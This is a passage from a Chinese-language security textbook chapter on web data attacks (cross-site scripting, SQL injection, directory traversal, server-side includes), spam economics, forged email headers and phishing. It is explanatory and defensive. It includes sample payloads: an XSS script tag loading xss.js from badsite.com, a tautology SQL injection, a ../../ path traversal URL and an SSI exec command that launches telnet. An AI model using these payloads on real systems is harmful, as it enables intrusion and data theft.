其次，良好的（安全的）代码很难定义和强制执行。正如我们在第 3 章中所解释的，陈述安全需求很棘手。你如何区分安全中性功能和安全有害功能？即使中性和有害之间存在全面的区分，无论是人工还是自动分析代码也几乎不可能。（想想第 3 章中显示的代码片段，其中 1970 行模块的第 632 行存在错误。）因此，拿到新代码进行安装的可怜网站维护人员，往往只能在不强制执行任何安全需求的情况下完成任务。

从这个相当悲观的解释中可以推断，网站上恶意代码的问题不太可能得到解决。用户警惕性可以降低接受此类代码下载的可能性，仔细的访问控制可以减少恶意代码到达时的危害。但事后恢复的规划和准备也是一种必要的策略。

## 4.3 获取用户或网站数据


在本节中，我们研究旨在提取敏感信息的攻击。此类攻击可以双向进行：从用户针对网站，反之亦然，尽管更常见的是针对远程 Web 服务器（因为服务器通常拥有许多人的宝贵数据，而单个用户则不然）。这些事件试图欺骗数据库管理系统泄露受控信息。

这些攻击的共同因素是网站内容由计算机命令提供。这些命令形成了一种通常广为人知的语言。例如，几乎所有数据库管理系统都处理称为 `SQL` 的语言中的命令，`SQL` 代表 System Query Language。`SQL` 参考书和示例程序随处可得。有兴趣从后台数据库服务器获取未授权数据的人，会编写 `SQL` 命令并通过 Web 界面传递给服务器。类似的攻击涉及编写 Java 脚本。这些攻击被称为脚本攻击或注入攻击，因为未授权的请求是作为脚本传递或注入到与服务器的对话中的。

### 数据中的代码

在本节中，我们将检查几个示例，在这些攻击中，可执行代码^(1) 包含在看似普通的数据中。

1. 在许多情况下，这个过程正确地称为“解释”而不是“执行”。执行适用于诸如 C 之类的语言，这些语言被编译并直接执行。其他操作发生在解释型语言中，例如 `SQL`，其中一个称为解释器的程序接受一组有限的命令，然后执行操作以实现这些命令的含义。例如，考虑一个数据库管理系统接受一条命令，显示所有以 AD 开头且出生于 1990 年之后的姓名记录，按薪水排序；显然，需要执行许多机器指令来实现这一条命令。为简单起见，我们继续使用术语“执行”来表示“解释”。

#### 跨站脚本

对用户（客户端）而言，与服务器的交互似乎是直接链接，因此很容易忽略途中伪造的可能性。然而，许多 Web 交互涉及多方，而不仅仅是一对一客户端到一台服务器的简单情况。在一种称为 **跨站脚本** 的攻击中，可执行代码包含在客户端和服务器之间的交互中，并由客户端或服务器执行。

作为一个例子，考虑一个发送给搜索引擎 Google 的简单命令。用户输入一个简单的文本查询，但在发往服务器的过程中，处理程序会添加命令，因此最初的简单字符串变成了一个结构，Google 可以用它来解释或优化搜索，或者用户的浏览器可以用它来帮助显示结果。因此，例如，对字符串“cross site scripting”进行 Google 搜索变为

```
http://www.google.com/search?q=cross+site+scripting
&ie=utf-8&oe=utf-8&aq=t&rls=org.mozilla:en-US:official
&client=firefox-a&lr=lang_en
```

查询词变成了“cross+site+scripting”，其他参数（由字符 `&` 分隔的字段）由搜索引擎添加。在该示例中，`ie`（输入编码）和 `oe`（输出编码）通知 Google 和浏览器输入按 UTF-8 字符编码，输出也将按 UTF-8 渲染；`lr=lang_en` 指示 Google 仅返回用英语编写的结果。为了效率，浏览器和 Google 在每次交互中来回传递这些控制参数，因此双方都不必维护关于对方的大量信息。

---

**脚本攻击：强制服务器在正常数据获取请求中执行命令（脚本）**

---

然而，有时交互并非直接发生在用户的浏览器和一个网站之间。许多网站提供对外部服务的访问，而无需离开该网站。例如，堪萨斯城的电视台 KCTV 有一个带有搜索引擎框的网站，以便用户可以在站内或网络上搜索。在这种情况下，Google 搜索结果显示在 KCTV 网页中，这对用户方便，对 KCTV 有营销优势（因为该台将用户留在其网站上）。搜索查询加载了参数以帮助 KCTV 显示结果；Google 为其解释参数，并将剩余参数未读、未修改地返回给 KCTV。这些参数成为附加到查询上的脚本，并由途中的任何响应方执行。

客户端和服务器之间的交互语言语法简单但效果丰富。客户端和服务器之间的通信必须全部用纯文本表示，因为网页协议（http）仅使用纯文本。为了渲染图像或声音、弹出窗口或闪烁文本等特殊效果或其他操作，http 字符串包含嵌入式脚本，调用 Java、ActiveX 或其他可执行代码。这些程序在客户端计算机上浏览器的上下文中运行，因此它们可以执行或访问浏览器能做的任何事情，这通常意味着完全访问用户的数据空间，以及通过网络连接发送和接收的完全能力。

##### 用户数据访问为何构成威胁？

脚本可能会查找任何名为 `address_book` 的文件并将其发送到 `spam_target.com`，在那里应用程序会向所有地址制作垃圾邮件，并伪装成用户为发件人。或者代码可能会查找任何包含 `ddd-dd-dddd` 格式数字（美国社会安全号码的标准格式）的文件，并将该文件传输给身份窃贼。可能性是无穷无尽的。

我们列出的搜索和响应 URL 可能包含如下脚本：

```
http://www.google.com/search?name=<SCRIPT
SRC=http://badsite.com/xss.js></SCRIPT>
&q=cross+site+scripting&ie=utf-8&oe=utf-8
&aq=t&rls=org.mozilla:en-US:official
&client=firefox-a&lr=lang_en
```

该字符串将连接到 [badsite.com](http://badsite.com)，在那里它会执行 JavaScript 脚本 `xss`，该脚本可以执行用户安全上下文允许的任何操作。

请记住，浏览器和服务器来回传递这些参数，以维护服务器与用户会话之间的上下文。有时来自客户端的一次交互会包含供服务器执行的脚本。如果服务器解释并执行该脚本，或者保存该脚本并将其返回给其他客户端（这些客户端随后会执行该脚本），攻击也可能危害服务器端。这种行为称为**持久型跨站脚本攻击**。此类攻击的一个例子可能发生在博客或评论流中。假设 KCTV 电视台在线发布新闻并邀请用户发表评论。恶意用户可能会发布一个包含脚本的嵌入 HTML 的评论，例如但他们的浏览器会执行该恶意脚本。正如 Sidebar 4-8 所述，一名攻击者甚至试图（但未成功）在纸上手动使用这种相同的方法。

```
Cool<br>story.<br>KCTVBigFan<script
src=http://badsite.com/xss.js></script>
```

来自我们刚才描述的脚本源。打开评论区的其他用户将自动下载之前的评论并看到

Cool

story.

KCTVBigFan

---

##### Sidebar 4-8 脚本投票

在瑞典大选中，任何人都可以写入任何候选人。瑞典选举机构发布所有写入候选人的选票，并将其列在一个网站上 ([`www.val.se/val/val2010/handskrivna/handskrivna.skv`](http://www.val.se/val/val2010/handskrivna/handskrivna.skv))。其中一张写入选票记录如下：

```
[Voting location: R;14;Västra Götalands
län;80;Göteborg;03;Göteborg, Centrum;
0722;Centrum, Övre Johanneberg;]
(Script src=http://hittepa.webs.com/x.txt);1
```

这或许是首例纸笔脚本攻击。它不仅因为纸质选票无法执行代码而失败，而且如果没有 HTML 指示符 `<script>` 和 `</script>`，即使底层网页由浏览器显示，这段“代码”也不会执行。但在几次选举之后，有人可能会想出如何在纸质选票上编码有效脚本，或者更糟的是，在电子选票上。

---

##### SQL 注入

跨站脚本攻击是注入攻击这一类别的一个示例，即将恶意内容插入有效的客户端-服务器交换中。另一种注入攻击称为 **SQL 注入**，其通过将代码插入客户端与数据库服务器之间的交换来运作。

要理解这种攻击，你需要知道数据库管理系统 (DBMS) 使用一种称为 **SQL** 的语言（在此语境下代表结构化查询语言）来表示发送给 DBMS 的查询。查询遵循标准语法，至少对于简单查询而言并不难理解。例如，查询

```
SELECT * FROM users WHERE name = 'Williams';
```

将返回 name 字段包含 “Williams” 的所有数据库记录。

通常这些查询通过浏览器组合并传输给支持网页的数据库服务器。银行可能有一个应用程序，允许用户下载涉及其账户的所有交易。在应用程序识别并验证用户身份后，它可能会为用户组合一个类似以下的查询

```
QUERY = "SELECT * FROM trans WHERE acct='"
+ acctNum + "';"
```

并将该查询提交给 DBMS。由于通信是在浏览器上运行的应用程序与 Web 服务器之间进行的，因此查询被编码在一个很长的 URL 字符串中

```
http://www.mybank.com
?QUERY=SELECT%20*%20FROM%20trans%20WHERE%20acct='2468'
```

在此命令中，空格字符已被其数字等价物 `%20` 替换（因为 URL 不能包含空格），浏览器已用 ‘2468’ 替换了账号变量。DBMS 将解析该字符串并适当返回记录。

如果用户能将字符串注入此交互，用户就能强制 DBMS 返回一组记录。DBMS 将 WHERE 子句作为逻辑表达式进行求值。如果用户将账号输入为 “‘2468’ OR ‘1’=‘1’”，生成的查询将变为

```
QUERY = "SELECT * FROM trans WHERE acct='"
+ acctNum + "';"
```

并在账号展开后变为

```
QUERY = "SELECT * FROM trans WHERE acct='2468'
OR '1'='1'"
```

因为 ‘1’=‘1’ 恒为 TRUE，WHERE 子句两部分的 OR 运算恒为 TRUE，每条记录都满足 WHERE 子句的值，因此 DBMS 将返回数据库中的所有记录。

这里的诀窍与跨站脚本攻击一样，在于浏览器应用程序将直接的用户输入包含在命令中，用户可以强制服务器执行任意 `SQL` 命令。

##### 点点斜杠

Web 服务器代码应始终在受限环境中运行。理想情况下，Web 服务器永远不应加载编辑器、`xterm` 和 `Telnet` 程序，甚至大多数系统实用程序。通过这种方式限制环境，即使攻击者从 Web 服务器应用程序中逃逸，也没有其他可执行程序能帮助攻击者利用 Web 服务器的计算机和操作系统来扩大攻击。Web 应用程序的代码和数据可以手动传输到 Web 服务器，或作为原始镜像推送。

但许多 Web 应用程序程序员比较天真。他们预期需要就地编辑 Web 应用程序，因此在服务器上安装编辑器和系统实用程序，以提供一个完整的编程环境。

防止攻击的第二个不太理想的条件是创建一个围栏来限制 Web 服务器应用程序。有了这样的围栏，服务器应用程序就无法逃离其区域并访问其他潜在的危险系统区域（如编辑器和实用程序）。服务器从特定的目录子树开始，服务器所需的一切都在同一子树中。

输入点点。在 Unix 和 Windows 中，`..` 都是表示“前驱”（父目录）的目录指示符。而 `../..` 是当前位置的祖父目录（祖父目录）。因此，能够输入文件名的人可以一次一个 `..` 地向上遍历目录树。Cerberus Information Security 分析师就在 Microsoft Index Server 的 `webhits.dll` 扩展中发现了该漏洞。例如，传递以下 URL 会导致服务器返回请求的文件 `autoexec.nt`，使攻击者能够修改或删除它。

```
http://yoursite.com/webhits.htw?CiWebHits
&File=../../../../../winnt/system32/autoexec.nt
```

##### 服务器端包含

一个潜在的更严重的问题被称为**服务器端包含**（Server-Side Include，SSI）。该问题利用了网页可以被组织为自动调用特定功能这一事实。例如，许多页面使用 Web 命令在显示页面的“联系我们”部分发送电子邮件。这些命令被放置在一个以 HTML 方式解释的字段中。

服务器端包含命令之一是 `exec`，用于在服务器上执行任意文件。例如，服务器端包含命令

```
<!--#exec cmd="/usr/bin/telnet &"-->
```

将从以服务器名义运行的服务器（即具有服务器权限）打开一个 Telnet 会话。攻击者可能会发现执行诸如 `chmod`（更改对象访问权限）、`sh`（建立命令 Shell）或 `cat`（复制到文件）等命令很有用。

#### 网站数据：用户的问题

您可能会想知道为什么我们在本章中提及网站所有者的数据。毕竟，网站所有者难道不应该负责保护这些数据吗？答案是肯定的，但有条件。

首先，您应该认识到，本书关注的是计算各方面的安全防护，包括网络、程序、数据库、云、设备和操作系统。确实，本书的任何单个读者都不太可能需要在所有这些地方实施安全防护，有些读者可能永远不会处于实际实施安全防护的位置，尽管有些读者可能会继续设计、开发或维护这些事物。然而更重要的是，阅读本书的每个人都将使用这些组件。所有读者都需要了解可能出现的问题，以及网站所有者和其他工程师及管理员能在多大程度上防范此类危害。因此，每个人都需要了解潜在威胁的范围，包括针对远程网站的威胁。

但更为重要的是，某些网站数据会对用户产生重大影响。考虑网站维护的最常见数据项之一：用户 ID 和密码。正如我们在第 2 章所述，人们很难记住许多不同的 ID 和密码。为了方便用户，许多网站使用电子邮件地址作为用户的标识，这意味着用户将在许多网站拥有相同的 ID。这种重复不一定是个问题，正如我们所解释的，因为 ID 通常是公开的；如果不是电子邮件地址，ID 可能是用户姓名的某个明显变体。保护用户的是公开 ID 和私有认证（通常是密码）的组合。只要您的密码极难猜测或推导，拥有您的 ID 对攻击者毫无帮助。遗憾的是，用户往往正是在这一点上出错。

---

**Sidebar 4-9 密码数据库大规模泄露**

《纽约时报》（2014 年 8 月 5 日）报道，一伙俄罗斯犯罪分子窃取了超过 12 亿对 ID 和密码，以及 5 亿个电子邮件地址和其他敏感数据。这些数据来自 420,000 个网站。为了让这些数字更具参考性，美国人口普查局（2013 年）估计世界总人口略超 70 亿，当然其中包括许多非互联网用户。Internet World Stats（[`www.internetworldstats.com/stats.htm`](http://www.internetworldstats.com/stats.htm)）估计 2012 年全球约有 24 亿互联网用户。

攻击结果由 Hold Security 的安全顾问 Alex Holden 报告。

该攻击组始于 2011 年，但直到 2014 年 4 月才开始外泄认证数据。Holden 称该组织由不到十几个 20 多岁的男子组成，在俄罗斯设有基地。该组织首先用侦察软件感染计算机，该软件检查受感染浏览器的不知情用户访问的网站。有漏洞的网站会被报告回该组织，随后该组织测试该网站的妥协潜力，最后发动攻击（使用 SQL 注入，我们刚才已描述过）以获取完整的凭据数据库。

---

面对众多需要记忆的密码，用户通过在多个网站重用相同密码来偷懒。即使这种重用后果轻微，前提是网站保护了 ID 和相应密码。但正如 Sidebar 4-9 所示，网站的 ID 和密码表既是攻击者的宝贵目标，又频繁被窃取。所述攻击只是众多此类事件中最大的一个。将某些用户在多个网站重用相同密码的倾向与网站面临的密码泄露攻击相结合，就产生了认证灾难的潜在可能。

即使受攻击的是网站，遭受损失的也是用户。因此，理解威胁、漏洞和对策最终是网站所有者的责任。然而，鉴于某些网站未能充分保护其数据，您应格外小心对待您的敏感数据：选择强密码，且不要在网站间重复使用。

#### 阻止数据攻击

本节中的攻击都依赖于将伪装成输入的命令传递。正如第 3 章所述，程序员不能假设输入是格式良好的。

输入预处理器可以监视并过滤掉特定的不当字符串形式，例如在预期仅包含字母和数字的数据中的 `<` 和 `>`。然而，为了支持来自不同键盘类型和不同语言的输入，某些浏览器会以数字格式对特殊字符进行编码，使此类输入稍微难以过滤。

第二种适用的对策是后端服务器的访问控制，这些服务器可能会接收并执行这些数据攻击。例如，一个姓名和电话号码数据库可能支持单个人物的查询。为了帮助不确定某些姓名拼写的用户，应用程序可能支持通配符表示法，例如 `AAR*` 以获取所有以 AAR 开头的人的姓名和号码。如果匹配的姓名数量低于预定阈值（例如 10），系统将返回所有匹配的姓名。但如果查询产生过多匹配，系统可返回错误指示。

然而总的来说，阻止跨站脚本攻击的恶意影响是一项挑战。

### 4.4 电子邮件攻击

到目前为止，我们已经研究了涉及浏览器的攻击，要么修改浏览器的行为，要么更改浏览器向用户呈现的网站。攻击用户的另一种方式是通过电子邮件。

#### 伪造电子邮件

考虑到每天发送和接收的海量电子邮件，其中大部分不合法也就不足为奇了。有些欺诈很容易识别，正如我们的第一个例子所示，但有些非法电子邮件能骗过专业人士，正如我们的第二个例子所示。

最近一封电子邮件通知我，我的 Facebook 账户已被停用，如图 4-15 所示。唯一的问题是，我根本没有 Facebook 账户。在图中，我展示了一些链接和按钮实际指向的位置，而非显示的地址；这些底层地址绝不像是 Facebook 会托管代码的地方。


**图 4-15** 伪造电子邮件


这份伪制品制作得相对精良：图像清晰，语言正确；有时此类伪制品有严重的拼写和语法错误，尽管非真实邮件的质量已显著提高。使用伪造电子邮件的攻击者知道大多数人会识别出伪造。另一方面，发送 100,000 条消息几乎不花成本，即使响应率仅为 0.1%，那仍是 100 个潜在受害者。

## 作为垃圾邮件的伪造电子邮件

同样，攻击者也可能试图用伪造的电子邮件欺骗人们。大概每个人都熟悉**垃圾邮件**，即虚构或误导性的电子邮件，内容包括推销名牌手表、身体增强产品或热门股票，以及涉及海外银行账户资金的致富骗局。类似的虚假信息试图诱导人们点击下载浏览器增强程序，甚至仅仅是点击查看更多详情。垃圾邮件发送者现在使用更逼真的主题作为虚假信息，以诱使收件人点击恶意链接。谷歌面向商业客户的电子邮件服务 Postini 报告称 [[GOO10]](#bib01.html#bib_236) 以下类型的垃圾邮件正在上升：

*   虚假的“投递失败”消息（“您的消息 *x* 无法投递”）
*   虚假的社交网络消息，特别是试图获取登录详细信息的消息
*   热点事件消息（“想了解更多关于[体育赛事、政治竞选、危机]的详情吗？”）
*   发货通知（“*x* 公司无法将包裹投递到您的地址——详情见此链接。”)

最初的电子邮件仅使用纯文本，因此攻击者必须说服用户访问网站或采取某些行动来回复邮件。然而现在，电子邮件可以使用 HTML 结构化内容，因此它们可以将链接嵌入为“点击此处”按钮。

### 垃圾邮件的数量

安全公司 M86 Security Labs 估计垃圾邮件占所有电子邮件的 86%，而谷歌报告称其企业邮件服务的每位用户每天平均收到 50–75 封垃圾邮件。Message Labs 认为垃圾邮件的比例超过 90%。卡巴斯基估计，截至 2014 年 2 月，垃圾邮件占所有电子邮件的 68% 至 71%，赛门铁克 [[SYM14]](#bib01.html#bib_606) 报告称，2012 年和 2013 年全年，垃圾邮件占所有电子邮件流量的比例稳定在 60% 至 70% 之间。

垃圾邮件主要来源国为中国（22.93%）、美国（19.05%）和韩国（12.81%）；所有其他国家均不足 8%。

***

#### 侧边栏 4-10 切断垃圾邮件发送者 Waledac/Storm

2010 年 2 月 24 日，微软获得法院命令，要求顶级域名管理机构 VeriSign 停止路由 277 个 .com 域名，这些域名均属于 Waledac（前身为 Storm）。同时，微软破坏了 Waledac 与其由 60,000 至 80,000 个节点组成的网络进行通信的能力，这些节点负责传播垃圾邮件。

垃圾邮件发送者经常利用大量节点发送垃圾邮件，因此电子邮件接收方无法建立一个简短的垃圾邮件发送者名单进行屏蔽。这些大量节点会定期“回传”指令到命令与控制网络，以获取下一步要发送的垃圾邮件指令或其他待执行任务。

一年前，来自微软、德国曼海姆大学和维也纳技术大学的研究人员已渗透进 Waledac 的命令与控制网络。后来，当 .com 域名被关闭时，研究人员利用其在网络中的位置，将命令和更新查询重定向到无害站点，从而使网络节点失效。在采取进攻行动后的几小时内，研究人员认为他们已切断了 90% 的网络。

据估计，Waledac 网络在运行时每天能够生成并发送 15 亿封垃圾邮件。这种法律与技术相结合的反制行动之所以有效，是因为它消除了通过被屏蔽域名的直接访问，以及通过被禁用的命令与控制网络的间接访问。

***

根据赛门铁克的分析，69.7% 的垃圾邮件包含性或约会内容，17.7% 涉及药品，6.2% 涉及招聘。侧边栏 4-10 描述了一种消除垃圾邮件的法律与技术相结合的方法。

### 为什么要发送垃圾邮件？

垃圾邮件给收件人带来骚扰，通常很容易识别，且发送它需要耗费时间和精力。为什么还要费心发送？答案与许多事物一样，是因为其中有利可图。

***

**垃圾邮件发送者赚取的利润足以使这项工作变得值得。**

***

我们已经给出了垃圾邮件数量的统计数据。目前的估计是垃圾邮件约占所有电子邮件流量的 70%。既然有那么多垃圾邮件在流通，必定是有利可图的。

#### 广告

最大比例的垃圾邮件推销药品。为什么这些如此受欢迎？首先，一些药品是成人用品，患者会因羞于向医生开口而不敢购买。其次，广告提供的价格远低于当地零售价。第三，广告提供通常需要医生处方的药品，而看病需要花钱且耗时。基于所有这些原因，人们意识到自己是在正常、合法、商业药品市场之外进行交易，因此他们不指望在日报或公共广告牌上找到此类广告。因此，电子邮件（不一定被识别为垃圾邮件）成为此类产品可接受的广告来源。

#### 拉高出货

垃圾邮件的一个热门主题是股票，通常是你从未听说过的股票——这是有原因的。大公司（如 IBM、谷歌、耐克和迪士尼）的股票变动缓慢，因为流通股数量大，且许多交易者愿意在略高或略低于当前价格的位置买入或卖出。影响这些股票的新闻甚至谣言可能会推高或打压价格，但消息消化完毕或谣言被证实/辟谣后，价格趋于稳定。要使价格发生显著幅度的变动是很困难的。

小发行人的股票通常被称为“低价股”，因为其价格以分（美分）计价，而非美元、欧元或英镑。低价股波动性很大。由于成交量低，强劲的需求可能导致价格大幅百分比上涨。负面谣言同样可能导致价格大幅下跌。

经典的操作手法称为“拉高出货”：交易者通过谣言和活动激增来“拉高”——人为抬高——股价。当股价升至足够高时，交易者再“出货”抛售。交易者在上涨过程中获利；当交易者以虚高价格抛售持仓、价格下跌、买家找不到其他愿意接盘的买家时，垃圾邮件接收者就会亏损。垃圾邮件让交易者得以拉高股价。

#### 广告

有人声称没有坏的宣传。即使是关于公司的负面新闻，也能将公司及其名称带入人们的视野。因此，为产品或公司做广告的垃圾邮件仍能在收件人脑中加深名称印象。初创的小公司需要打响知名度；他们可以稍后再将质量与该名称联系起来。

因此，广告垃圾邮件是有其目的的。几个月收到垃圾邮件后，你会忘记在哪里听到过该公司的名称。但曾在垃圾邮件中见过该名称，会使其足够熟悉，从而在稍后再次于积极语境下听到该名称时，强化名称识别度。

#### 恶意载荷

在第 6 章第 6 章中，我们将描述僵尸网络，即被攻陷计算机组成的大军，它们可被指挥参与多种攻击：导致拒绝服务、发送垃圾邮件、增加广告点击量，甚至破解加密谜题。僵尸节点是拥有闲置计算周期的被攻陷计算机，可供出租。

这些计算机是如何被征用的？一些是通过恶意软件工具包探测引入的，正如我们在第 3 章第 3 章中所述。另一些则是在用户点击电子邮件中的链接时被植入的。正如你在本章其他示例中所见，用户不知道计算机实际在做什么。你点击一个提供免费奖品的链接，实际上却刚刚将你的计算机注册为一个受控代理（顺便说一句，你并没有中奖）。带有误导性链接的垃圾邮件是将计算机招募为僵尸节点的重要载体。

#### 指向恶意网站的链接

同样，阴暗的、通常带有色情内容的网站也想要定位并吸引客户的方法。而想要传播恶意代码的人则在寻找受害者。一些网站将内容强推给用户，但许多网站希望吸引用户访问该站点。即使是垃圾邮件，一封电子邮件也是向潜在感兴趣方推荐此类网站的好方式。

### 价格合理

最后，价格——几乎为零——使得垃圾邮件对广告商极具吸引力。垃圾邮件发送者需要租用目标地址列表，支付撰写和发送邮件的费用，并承担服务提供商的费用。这些成本都很低，垃圾邮件的成本很低。否则垃圾邮件发送者如何维持生计？

垃圾邮件是一个独立的、不受监管的经济体系的一部分，涵盖的活动范围从可疑到非法。其制造者可以从一个政治管辖区转移到另一个，以规避法律挑战。而且因为它是一个无固定归属、不入账的企业，它可以避税并逃避调查，使其自然地与其他阴暗交易为伍。它利润丰厚，足以维持运转并让其制造者生活舒适。

#### 如何应对垃圾邮件？

垃圾邮件约占互联网电子邮件活动的 70%，消耗了大量资源。如果没有垃圾邮件，ISP 和电信骨干公司可以在扩容方面节省大量开支。消除、减少或监管垃圾邮件有哪些选择？

##### 法律手段

许多国家和其他司法管辖区都试图将发送大量不需要的电子邮件定为非法。在美国，`2003 年 CAN-SPAM 法案` 和欧洲议会的 `2002/58/EC 指令` 是两部早期限制发送垃圾邮件的法律；大多数工业化国家都有类似的立法。所有这些努力的问题在于管辖权、范围和补救措施。

***

**垃圾邮件尚未令人恼火、有害或代价高昂到足以激励国际社会采取行动制止它。**

***

一个国家对其国境之外的人能要求的事情有限。从一个国家的一个人发送未经请求的电子邮件给同一国家的另一个人，很容易符合法律可监管活动的模式：搜查令、资产扣押、传票和审判都在法院的管辖范围内。但当发送者在美国境外时，这些法律工具很难适用，甚至根本无法适用。因为大多数垃圾邮件本质上是跨国的——起源于一个国家，通过另一个国家的电信网络发送，目的地在第三个国家，而恶意链接可能托管在第四个国家的计算机上——理清谁可以采取行动既复杂又耗时，特别是如果并非所有涉及的国家都希望充分合作。

定义禁止活动的范围很棘手，因为各国希望支持互联网商业，尤其是在其本国境内。美国 `CAN-SPAM 法案` 签署后几乎立即被批评者称为“你可以发垃圾邮件”法案，因为它不要求发送者在发送电子邮件前获得预期收件人的许可。该法案要求发送者提供退订程序，但处于边缘合法或非法状态的发送者不会在意违反该条款。

对境外代理人的补救需要国际合作，这既耗时又涉及政治。引渡嫌疑人和查封资产非常规活动，因此往往只针对重大、高曝光度的犯罪保留。

因此，虽然通过法律禁止垃圾邮件很容易，但制定有效的法律并实施它们却难得多。正如我们在 第 11 章 中所述，法律是维护和平公平公民社会的重要且必要的部分。良法告知公民诚实和适当的行为。但法律并不总是对坚定和执着的行为者有效的威慑。

##### 源地址

互联网运行在一种荣誉体系上，期望每个人都遵守规则。正如我们之前指出的，电子邮件中的源地址很容易被伪造。合法发送者希望有有效的源地址以支持回复；非法发送者通过网页链接获取回复，因此回复地址对他们毫无益处。准确的回复地址只会提供一种追踪发送者的方式，这是非法发送者不想要的。

尽管如此，互联网协议本可以强制执行更强的回复地址。电子邮件转发链中的每个接收者都可以强制要求发送者的地址与发送该邮件的系统相匹配。这种变更将需要重写电子邮件协议并对互联网上所有电子邮件承载系统进行大规模改造，除非有除安全之外的其他令人信服的理由，否则不太可能发生。

***

**电子邮件发送者地址不可靠。**

***

##### 筛选器

针对垃圾邮件开发的首批对抗措施中包括筛选器，即自动识别并隔离或删除垃圾邮件的工具。与病毒检测等类似技术一样，垃圾邮件发送者密切关注筛选器拦截了什么、漏掉了什么，并相应地修改垃圾邮件的形式和内容。

筛选器对业余垃圾邮件发送者非常有效，但老练的邮件发送者可以绕过筛选器。

##### 发送量限制

一个提议的选项是限制单个发送者或单个电子邮件系统的发送量。我们大多数人发送个人电子邮件给一位或少数几方；偶尔我们可能会发送给大规模邮件列表。限制我们的发送量不会造成严重困难。限制单位可以是每小时、每天或任何其他方便的单位。如果限额设得足够高，将永远不会影响个人用户。

问题在于合法的大规模营销商，他们代表数百个客户发送数千条消息。发送速率限制必须允许甚至促进商业，同时遏制垃圾邮件；平衡这两部分需求才是难点。

##### 邮资

某些私人和公共邮政服务早在两千年前就已在城邦国家中发展起来，但工业化国家现代公共邮政服务是 18 世纪的产物。最初由收件人而非发件人支付信件邮资，这可预见地导致了信件淹没攻击。19 世纪初模式发生改变，由发件人负责预付投递费用。

电子邮件可以采用类似模式。每发送一封电子邮件可收取少量费用，通过发件人的 ISP 支付。ISP 可为每位客户允许一定数量的免费邮件，该数字设定得足够高，以至于极少甚至没有个人客户需要付费。困难同样在于合法的大规模邮件发送者，但电子邮资的成本只会成为一项公认的经营成本。

正如你所见，对抗措施清单简短且不完美。真正的挑战在于安抚并支持合法的大规模邮件发送者，同时仍遏制垃圾邮件发送者的活动。

### 伪造（不准确）的电子邮件头部数据

正如我们刚才所述，电子邮件攻击之所以得逞，原因之一是电子邮件头部易于伪造，导致收件人相信邮件来自安全来源。这里我们将详细探讨伪造是如何发生的，以及可以采取什么措施。

电子邮件头部的控制权在于发送邮件代理。头部格式是标准化的，但在互联网电子邮件网络中，当消息被转发至目的地时，每个接收节点都信任发送节点提供准确的内容。然而，恶意的甚至有故障的邮件传输代理可能会发送带有不准确头部的消息，特别是在“发件人”字段中。

原始电子邮件传输系统基于少量可信参与者，随着系统向不可信参与者开放，系统在很少关注准确性的情况下增长。更可靠电子邮件的提议包括认证的简单邮件传输协议（`SMTP`）或 `SMTP-Auth`（RFC 2554）或增强 `SMTP`（RFC 1869），但由于互联网电子邮件系统涉及如此多的节点、程序和组织，现在更改基本的电子邮件传输方案是不可行的。

如果没有可靠的认证，电子邮件来源极易伪造。`Telnet` 是一种协议，本质上允许键盘前的用户发送命令，就像由应用程序产生的一样。`SMTP` 协议（在 RFC 5321 中完全定义）涉及邮件发送方和接收方之间的多次基于文本的对话。由于整个协议以明文实现，键盘前的人可以在与另一端的服务器应用程序交互时创建对话的一方，发送方可以呈现任何消息参数值（包括发送方身份、日期或时间）。

甚至可以通过与将传输邮件的 `SMTP` 服务进行 `Telnet` 交互，即时编写所有标题和内容，来创建并发送有效的电子邮件。因此，接收邮件中的标题通常不可靠。

## 网络钓鱼

一种变得足够普遍以至于有了自己名字的假邮件类型是**网络钓鱼**（发音类似“fishing”）。在**网络钓鱼**攻击中，电子邮件试图诱骗收件人泄露私人数据或采取其他不安全操作。网络钓鱼邮件声称来自可靠公司，如银行或其他金融机构、知名网站公司（如 Facebook、Hotmail 或 Yahoo）或消费品公司。微软网站上作为警告发布的网络钓鱼邮件示例如图 4-16 所示。


**图 4-16** 网络钓鱼邮件示例

一种更隐蔽的网络钓鱼形式称为**鱼叉式网络钓鱼**，其中诱饵对猎物看起来特别有吸引力。鱼叉式网络钓鱼攻击的区别在于其利用社会工程学：电子邮件诱饵针对收件人进行个性化，从而降低用户的怀疑。例如，如侧边栏 4-11 所述，网络钓鱼邮件可能看起来来自用户认识或信任的人，如朋友（其电子邮件联系人列表可能已被窃取）或系统管理员。有时网络钓鱼邮件会通知收件人有错误，并包含一个链接供点击以输入账户数据。当然该链接不是真实的；其唯一目的是获取账户名、号码和认证信息。

***

**鱼叉式网络钓鱼邮件通过看似来自接收者熟知并信任的来源来诱骗收件人。**

***

***

#### 侧边栏 4-11 鱼叉式网络钓鱼钓到大鱼

2011 年 3 月，安全公司 RSA 宣布其 SecurID 认证令牌（见第 2 章）的安全性受到损害。根据公司公告，未知方渗透了服务器并获取了公司机密，包括“……专门与 RSA 的 SecurID 双因素认证产品相关的信息。”公司透露，两封主题为“2011 招聘计划”的鱼叉式网络钓鱼邮件被发送给多名员工。一名员工打开了邮件以及附件 Excel 电子表格“2011 Recruitment plan.xls”，该文件感染了一个此前未知的漏洞。有害电子表格随后安装了一个后门，将该员工的计算机（位于 RSA 企业网络内部）连接到远程服务器。

早些时候，根据*法新社*（2010 年 10 月 18 日）的报道，韩国官员被骗下载恶意软件，将敏感国防文件发送到外国目的地，据信是中国。官员们收到的电子邮件看似来自韩国外交官、总统助手和其他官员；消息似乎来自韩国两大门户网站，但底层 IP 地址注册在中国。

电子邮件包含的附件标题为且看似重要文档，如要人访问计划或朝鲜经济分析。当收件人点击打开附件时，该操作允许病毒感染收件人的计算机，进而导致敏感文件传输。

在 2012 年 9 月 G20 峰会（20 个工业化国家外交官会议）之前，攻击者能够访问来自未指定欧洲国家的几位外交官。带有 US\_military\_options\_in\_Syria 等名称附件的污染邮件被用来诱骗收件人打开文件，从而感染计算机。攻击者能够在峰会前和期间从这些计算机收集数据。

2012 年 10 月，白宫成为鱼叉式网络钓鱼攻击的受害者，导致一台非密服务器受损。2013 年 7 月，白宫工作人员再次被网络钓鱼邮件愚弄，这次邮件设计得像合法的 BBC 或 CNN 新闻条目。当收件人打开邮件时，他们被重定向到外观真实的 Gmail 或 Twitter 登录页面，攻击者从中提取了工作人员的登录凭据。

***

### 防范电子邮件攻击

电子邮件攻击日益复杂。本章示例中的语法错误和糟糕布局会引起用户怀疑。但随着时间的推移，垃圾邮件制作者已学会制作外观真实的诱饵的重要性。

